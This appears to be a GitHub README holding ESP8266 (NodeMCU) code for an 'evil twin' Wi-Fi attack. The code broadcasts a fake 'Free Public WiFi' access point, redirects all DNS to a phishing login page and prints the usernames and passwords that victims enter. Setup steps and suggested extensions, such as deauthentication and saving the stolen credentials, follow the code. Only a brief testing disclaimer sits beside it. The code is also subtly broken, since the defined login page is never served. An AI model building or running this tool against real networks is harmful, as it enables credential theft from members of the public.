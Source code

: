 # Evil-Twin_Node_MCU



```bash
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// Configuration
const char* AP_SSID = "Free Public WiFi";  // Fake AP name
const char* REDIRECT_URL = "http://login.required";  // Phishing URL

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// HTML for captive portal
const char* loginPage = 
R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<title>Network Login Required</title>
<style>
  body { font-family: Arial, sans-serif; background: #f0f0f0; }
  .container { background: white; width: 300px; margin: 100px auto; padding: 20px; border-radius: 5px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
  input { width: 100%; padding: 10px; margin: 8px 0; box-sizing: border-box; }
  button { background: #4CAF50; color: white; padding: 14px 20px; border: none; cursor: pointer; width: 100%; }
</style>
</head>
<body>
<div class="container">
  <h2>Network Login</h2>
  <p>Enter credentials to access Internet</p>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <button type="submit">Login</button>
  </form>
</div>
</body>
</html>
)rawliteral";

void setup() {
  Serial.begin(115200);
  
  // Configure AP
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(AP_SSID);

  // Start DNS server (captive portal)
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web server handlers
  webServer.on("/", handleRoot);
  webServer.on("/login", handleLogin);
  webServer.onNotFound(handleRoot);  // Redirect all requests
  webServer.begin();

  Serial.println("\nEvil Twin AP Running!");
  Serial.print("SSID: ");
  Serial.println(AP_SSID);
  Serial.print("IP: ");
  Serial.println(apIP);
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

// Handle captive portal redirect
void handleRoot() {
  webServer.sendHeader("Location", REDIRECT_URL, true);
  webServer.send(302, "text/plain", "");
}

// Process captured credentials
void handleLogin() {
  String username = webServer.arg("username");
  String password = webServer.arg("password");
  
  Serial.println("\n[+] Credentials Captured!");
  Serial.print("Username: ");
  Serial.println(username);
  Serial.print("Password: ");
  Serial.println(password);

  // Redirect after capture
  webServer.sendHeader("Location", "http://example.com", true);
  webServer.send(302, "text/plain", "Login Successful");
}

// Not needed but included for clarity
void handleNotFound() {
  handleRoot();
}
```

## Note
- You can modify certain parameters in the code to fit your requirements:
  - **Redirected URL:** Change the URL users are sent to after submitting credentials to match your test scenario.
  - **SSID:** Set your own Wi-Fi network name to attract targets or for testing purposes.
  - **DNS:** Adjust DNS settings if you want to redirect to a different captive portal or server.
- Make sure to update these variables in the source code before uploading to your NodeMCU device.

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Key Components

**Fake Access Point:**
- Creates Wi-Fi network with specified SSID
- Uses IP 192.168.1.1 for gateway

**Captive Portal:**
- DNS server redirects all domains to ESP
- Any HTTP request shows login page
- Professional-looking login form

**Credential Harvesting:**
- Captures username/password via POST
- Prints credentials to serial monitor
- Shows "success" redirect after submission

## Setup Instructions
- Upload code to NodeMCU
- Open Serial Monitor (115200 baud)
- Connect device to Free Public WiFi
- Attempt to browse any website
- Enter test credentials in login page
- Observe credentials in Serial Monitor

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Enhancements (Optional)
- Add EAP/TLS encryption simulation
- Implement WiFi deauthentication (requires external hardware)
- Add SSL/TLS (requires HTTPS library)
- Store credentials to SPIFFS/SD card
